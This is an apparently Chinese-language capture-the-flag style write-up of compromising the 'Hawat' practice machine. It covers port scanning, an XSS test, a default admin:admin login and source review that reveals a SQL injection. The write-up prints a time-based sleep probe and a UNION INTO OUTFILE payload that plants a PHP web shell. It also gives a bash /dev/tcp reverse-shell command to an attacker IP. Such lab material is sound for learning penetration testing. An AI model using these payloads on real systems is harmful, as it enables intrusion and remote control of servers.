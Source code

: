 ```yaml
---
title: Proving Grounds Practice-Hawat
date: 2025-6-16 20:00:00
tags: 红队
categories: 红队打靶-Linux
---
```


# 信息收集

## namp

![image-20250616101043023](./Hawat/image-20250616101043023.png)

## 30455端口

查看源码，得到一个可以使用的参数

![image-20250616103338010](./Hawat/image-20250616103338010.png)

修改之后可以修改页面标题

![image-20250616103350313](./Hawat/image-20250616103350313.png)

测试之后发现存在xss漏洞，但好像没有什么用，反弹cookie等待很久也没有任何反应

<script>alert('XSS')</script>   

![image-20250616103419483](./Hawat/image-20250616103419483.png)

扫目录发现还有个`phpinfo.php`

![image-20250616140457683](./Hawat/image-20250616140457683.png)

`30455`页面的根目录是在`/srv/http`下并且该目录拥有者为`root`

![image-20250616135804135](./Hawat/image-20250616135804135.png)

## 50080端口

![image-20250616112526456](./Hawat/image-20250616112526456.png)

扫到的目录4下面有一个css文件，其中有版本号，但是该版本查询之后好像也没有什么漏洞

![image-20250616112536429](./Hawat/image-20250616112536429.png)

cloud页面存在弱密码`admin:admin`。

![image-20250616112555320](./Hawat/image-20250616112555320.png)

登录之后查看其中的文件

![image-20250616113803406](./Hawat/image-20250616113803406.png)

`issuetracker.zip`是个maven项目，因为有`pom.xml`，这是一个编译的时候的配置文件，该压缩包其中包含源码

![image-20250616113808548](./Hawat/image-20250616113808548.png)

这个源码是17445端口页面的源码，可以通过url路径判断

![image-20250616114750346](./Hawat/image-20250616114750346.png)

搜索其中是否存在username or password

![image-20250616114315328](./Hawat/image-20250616114315328.png)

成功找到之后去挨个查看java文件，最终在该文件下找到了这个源码

`/issuetracker/src/main/java/com/issue/tracker/issues/issueController.java`

这段代码是要获取`priority`参数，并且使用这个账号密码连接到mysql，然后在数据库中查询，但是没有给出该参数的提交方式

![image-20250616114338450](./Hawat/image-20250616114338450.png)

先尝试访问，报405错误说明请求方法错误，更改为POST提交报400错误，说明请求错误

![image-20250616135931054](./Hawat/image-20250616135931054.png)

经过多次尝试，提交方法是POST提交，但是提交的内容在GET请求中，根据源码知道参数名称，提交之后可以成功返回200

![image-20250616140719175](./Hawat/image-20250616140719175.png)

并且源码中是直接将参数插入到sql语句中，存在sql注入漏洞

![image-20250616140905768](./Hawat/image-20250616140905768.png)

源码没有返回值，所以查询在前端是看不到的，包括后面sql注入要执行的恶意代码，是没有回显的，但是可以通过sleep函数测试是否存在注入

```
Normal' and sleep(3)# 
```

加入sleep函数之后回显是有等待的，说明存在注入

既然没有回显那就写入文件，写入一句话木马，加入phpinfo是为了更清楚的知道该页面是否写入成功，通过前面的phpinfo可以知道30455端口的页面是在/srv/http下，并且目录拥有者为root

```
Normal' union select "<?php system($_GET['123']); phpinfo();?>" into outfile '/srv/http/shell1.php'#
```

![image-20250616151203184](./Hawat/image-20250616151203184.png)

执行反弹shell命令到攻击机，还是有端口限制，30455可以成功，80不行

```bash
bash -c "bash -i >& /dev/tcp/192.168.45.198/30455 0>&1"
```

![image-20250616152745364](./Hawat/image-20250616152745364.png)